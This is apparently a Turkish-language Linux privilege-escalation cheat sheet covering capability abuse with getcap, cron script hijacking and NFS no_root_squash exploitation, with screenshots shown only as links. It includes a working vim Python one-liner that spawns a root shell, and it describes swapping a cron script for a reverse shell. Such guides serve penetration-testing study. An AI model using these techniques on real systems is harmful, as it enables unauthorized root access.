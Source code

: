 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


![image](https://github.com/user-attachments/assets/95393a6b-8542-43de-b917-86ad585d9bd5)















